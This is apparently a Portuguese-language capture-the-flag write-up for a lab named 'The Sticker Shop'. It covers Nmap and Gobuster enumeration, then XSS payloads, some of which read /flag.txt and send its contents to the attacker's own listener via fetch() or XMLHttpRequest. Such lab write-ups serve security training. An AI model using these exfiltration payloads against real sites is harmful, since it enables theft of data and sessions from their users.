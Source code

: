 # _**The Sticker Shop CTF**_
![](sticker.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Temos um website  
Como indicado pela sala, temos que obter a flag em <mark>http://[ip_address]:8080/flag.txt</mark>  
Vamos tentar acessar  
Como esperado, não temos autorização. Vamos investigar o site  
Um scan com <mark>Gobuster</mark> não revela nenhuma informação útil  

***

Então, pesquisando um pouco junto da dica, chegou a conclusão que devemos realizar um **ataque XSS**  
Primeiro, vamos tentar alguns ataques simples
> ```bash
> <script>alert('XSS')</script>
> <img src=x onerror=alert('XSS')>
> http://[ip_address]:8080/search?q=<script>alert('XSS')</script>
> ```
O retorno é a mesma mensagem que vemos normalmente  
Melhorando nosso _payload_, vamos tentar este daqui
> ```bash
> <script>
> fetch('http://[ip_address]:8080/flag.txt')
>   .then(r => r.text())
>   .then(data => fetch('http://[vpn_ip_address]:8000/?flag=' + btoa(data)));
> </script>
> ```
Mas sem sucesso também  
O que podemos fazer é ligar um servidor HTTP python e realizar a requisição para conseguirmos ler em nossa máquina  
Primeiro, vamos testar para ver se funciona
> ```bash
> <img src="http://[vpn_ip_address]/test" />
> ```
![](xss_return.jpg)

E temos um retorno!  
Descobrimos uma vulnerabilidade de Cross-Site Scripting (XSS) que pode afetar um usuário da equipe e que nos permite executar código JavaScript em sua sessão  
Podemos explorar essa vulnerabilidade para obter o conteúdo da página http://[ip_address]:8080/flag.txt  
Procurando por um código em _JavaScript_, encontramos este abaixo. Basta inserir com o servidor python ligado e recuperar a flag
> ```bash
> var target_url = "/flag.txt";
> var my_server = "http://[vpn_ip_address]/data";
> var xhr  = new XMLHttpRequest();
> xhr.onreadystatechange = function() {
>     if (xhr.readyState == XMLHttpRequest.DONE) {
>         fetch(my_server + "?" + xhr.responseText)
>     }
> }
> xhr.open('GET', target_url, true);
> xhr.send(null);
> ```
